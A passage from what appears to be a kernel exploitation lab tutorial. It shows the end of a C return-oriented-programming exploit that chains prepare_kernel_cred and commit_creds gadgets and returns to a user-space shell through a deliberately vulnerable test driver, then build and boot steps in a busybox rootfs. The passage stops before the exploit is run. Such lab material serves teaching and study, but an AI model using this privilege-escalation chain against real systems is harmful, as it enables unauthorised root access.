   ```c

    fake_stack = (unsigned long *)(stack_addr);
    *fake_stack ++= 0xffffffff810476e5UL; /* pop rdi ; ret */

    fake_stack = (unsigned long *)(stack_addr + ret_inst_operand + 8);

    *fake_stack ++= 0x0UL;                /* NULL */ 
    *fake_stack ++= 0xffffffff8108fa30UL; /* prepare_kernel_cred() */

    *fake_stack ++= 0xffffffff812366d2UL; /* pop rdx ; ret */
    //*fake_stack ++= 0xffffffff8108f7b0UL; /* commit_creds() */
    *fake_stack ++= 0xffffffff8108f7b6UL; // commit_creds() + 2 instructions

    *fake_stack ++= 0xffffffff81035b51UL; /* mov rdi, rax ; call rdx */

    #if 1
    *fake_stack ++= 0xffffffff81050554UL; // swapgs ; pop rbp ; ret
    *fake_stack ++= 0xdeadbeefUL;         // dummy placeholder 

    *fake_stack ++= 0xffffffff81050dd6UL; /* iretq */
    *fake_stack ++= (unsigned long)shell; /* spawn a shell */
    *fake_stack ++= user_cs;              /* saved CS */
    *fake_stack ++= user_rflags;          /* saved EFLAGS */
    *fake_stack ++= (unsigned long)(temp_stack+0x5000000);  /* mmaped stack region in user space */
    *fake_stack ++= user_ss;              /* saved SS */
    #endif

    fd = open(DEVICE_PATH, O_RDONLY);

    if (fd == -1) {
      perror("open");
    }

    ioctl(fd, 0, &req);

    return 0;
  }
  ``` 

- Host: build and add rop_exploit to rootfs
  
  ```sh
  $ gcc --static rop_exploit.c -o rop_exploit
  $ cd ~/busybox-1.19.4/_install/
  $ cp ~/kernel_rop/rop_exploit .
  $ find . | cpio -o --format=newc > ../rootfs.img
  ```

- Boot and test
  
  ```sh
  / # insmod drv.ko 
  [   57.808600] drv: module verification failed: signature and/or required key missing - tainting kernel
  [   57.824089] addr(ops) = ffffffffa0002340
  / # mdev -s
  / # chmod o+rw /dev/vulndrv

  / # adduser user
  addgroup: /etc/group: No such file or directory
  passwd: unknown uid 0  
  / # su user
  ~ $ id
  uid=1000(user) gid=1000 groups=1000

  ```
